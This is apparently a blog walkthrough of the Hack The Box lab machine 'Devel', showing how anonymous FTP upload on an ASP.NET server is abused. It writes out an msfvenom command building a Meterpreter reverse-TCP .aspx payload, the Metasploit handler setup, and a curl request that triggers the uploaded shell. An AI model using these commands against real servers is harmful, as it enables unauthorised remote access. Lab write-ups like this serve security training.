 ```yaml
---
title: Devel
date: 2020-05-09 11:29:00
description: Hack The Box Walkthrough
featured_image: '/images/blog/devel/devel.jpg'
tags: ['Hack The Box']
---
```


<p>Here is another box from Hack the Box (HTB) that is simple and great for beginners. In Devel's box, I'll be using Metasploit and the open FTP port to upload a webshell to gain shell access on the machine.</p>

<h2>Hack the box</h2>
<ul>
	<li>Operating System: Windows</li>
	<li>Difficulty: Easy</li>
</ul>

<h2>Information gathering</h2>

Let's start with the nmap scan. 

<img src="/images/blog/devel/ipaddress.jpg" alt="nmap scan">

<p>And our results are in:</p>

<img src="/images/blog/devel/nmapresults.jpg" alt="nmap results"> 

<p>The results look interesting. We can see that port 21 (FTP) is open, and it allows for anonymous login.</p>

<p>I tried logging in using the anonymous login--success. There wasn't anything interesting inside the files, but I was able to upload a file onto the FTP server. Here's what I did:</p>

<img src="/images/blog/devel/testupload.jpg" alt="nmap results"> 

<p>Since it's accessible through the command line, I also tried accessing the FTP service through the web browser so that I can use Burp Suite to see if I can get more information about this box.</p>

<p>Taking a look at the HTTP header, we can see that it's running ASP.NET. Meaning, it will likely be able to run a .aspx file when we start exploiting the box.</p>

<img src="/images/blog/devel/httpheader.jpg" alt="nmap results"> 

<p>Let's recap, we know two things right now:</p>

<ul>
	<li>We can upload files onto the FTP server.</li>
	<li>FTP is running on ASP.NET, so we can add a .aspx file.</li>
</ul>

<p>This might be enough for us to run an exploit since we can try uploading a payload generator with .aspx extension and gain the box via reverse shell. Let's give it a shot.</p>

<h2>Threat modelling</h2>

<p>The first thing that we want to do is create a payload. To create a payload we can use msfvenom by typing into the command line:</p>

<code>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > rev.aspx</code>

<img src="/images/blog/devel/payload.jpg" alt="nmap results"> 

<p>Once the file is created, we'll want to upload it to the FTP service:</p>

<img src="/images/blog/devel/payloadftp.jpg" alt="nmap results"> 

<p>Okay, we're pretty much ready to exploit the box. Let's start by opening up Metasploit.</p>

<h2>Exploitation</h2>

<p>Once Metasploit opens, we can type in:</p>

<code>use exploit/multi/handler</code>

<p>This provides a listener for callbacks that are generated outside of Metasploit.</p>

<p>Next, I filled out the following:</p>

<ul>
	<li><code>set payload windows/meterpreter/reverse_tcp</code>: Sets the payload.</li>
	<li><code>set lhost tun0</code>: Sets the listening IP address.</li>
	<li><code>set lport 4444</code>: This should be the LPORT you listed when we created the payload above.</li>
	<li><code>options</code>: Good habit to make sure everything was filled.</li>
</ul>

<p>Okay, it should be ready to go. We can use the <code>exploit</code> command to run it.</p>

<img src="/images/blog/devel/metasploit.jpg" alt="nmap results"> 

<p>It looks like it's working! We can now open the payload file that we uploaded earlier either through the web browser or by typing in another terminal window:</p>

<code>curl http://10.10.10.5/rev.aspx</code>

<p>Once we've opened the file, we can go back to our Metasploit terminal window--and look at that! We now have access to the box. As always, we can use the <code>shell</code> command to gain shell access, so that you can get the root.txt and user.txt file.</p>

<img src="/images/blog/devel/shell.jpg" alt="nmap results"> 

<p>Great, another HTB machine completed.</p>
